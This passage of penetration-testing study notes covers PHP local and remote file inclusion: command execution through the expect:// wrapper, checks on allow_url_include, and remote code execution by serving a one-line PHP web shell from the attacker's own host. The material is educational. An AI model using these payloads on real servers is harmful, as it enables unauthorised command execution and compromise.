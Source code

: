 ### Expect

The expect wrapper allows us to run commands in the URL. However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. To check if it is enable:
```console
zero@pio$ echo '[string]' | base64 -d | grep expect

extension=expect
```

The usage is the following:
```console
zero@pio$ curl -s "http://<ip>/index.php?language=expect://id"
```

## Remote File Inclusion 

If the vulnerable function allows the inclusion of remote URLs, we have an **RFI**. Almost all the RFI is a LFI, but not all the LFI are RFI. Mainly because:
- The vulnerable function may not allow including remote URLs
- You may only control a portion of the filename and not the entire protocol wrapper 
- The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default 

To verify if it is vulnerable to RFI we can check the property `allow_url_include`:
```console
zero@pio$ echo '[string]' | base64 -d | grep allow_url_include

allow_url_include = On
```

Even though, the code could not allow remote URL. It is recommendable to first check LFI:
```
http://<ip>/index.php?language=http://127.0.0.1:80/index.php
```

### RCE with RFI 

First, create a script in the page langauge:
```console
zero@pio$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Create a web server:
```console
zero@pio$ sudo python3 -m http.server <port>
```

And execute it:
```
http://<ip>/index.php?language=http://<your ip>:<your port>/shell.php&cmd=id
```

### SMB 
